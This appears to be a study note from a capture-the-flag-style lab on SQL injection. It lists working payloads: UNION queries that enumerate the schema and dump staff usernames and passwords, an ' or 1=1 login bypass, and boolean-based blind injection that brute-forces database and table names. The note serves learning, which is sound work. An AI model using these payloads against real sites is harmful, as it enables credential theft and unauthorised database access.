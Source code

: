 ![](Pasted%20image%2020241116223725.png)

# Introduction

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# Example

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# SQL Injection Snippets

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth

- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

